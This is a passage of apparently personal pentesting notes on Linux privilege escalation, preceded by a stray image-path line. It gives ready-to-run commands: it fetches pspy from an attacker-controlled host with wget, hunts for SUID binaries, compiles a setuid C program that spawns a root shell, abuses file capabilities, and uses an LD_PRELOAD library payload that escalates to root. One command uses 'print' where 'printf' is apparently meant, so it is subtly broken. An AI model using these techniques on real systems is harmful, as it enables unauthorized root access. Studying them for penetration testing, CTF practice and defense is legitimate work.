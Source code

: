 Use pspy64/pspy32 to check on processes that are being run if we do not have access:

```bash
wget <attacker_ip>/pspy
chmod +x pspy
./pspy
```

### SUID Binaries

#### Check which binaries have SUID binary set:

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -uid 0 -perm -4000 -type f 2>/dev/null
```

Then head to GTFOBins that would do it for us.

#### Creating SUID binaries:

```bash
print 'int main(void){\nsetresuid(0, 0, 0);\nsystem("/bin/sh");\n}' > /tmp/suid.c   
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid 
sudo chmod +s /tmp/suid 
```

#### Check which binaries have cool capabilities:

```bash
/usr/bin/getcap -r /usr/bin
```

#### Edit capabilities if needed:

```bash
/usr/bin/setcap -r /bin/ping            # remove
/usr/bin/setcap cap_net_raw+p /bin/ping # add
```

#### Sudo:

```bash
sudo -l
```

#### LD\_PRELOAD and NOPASSWD:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```
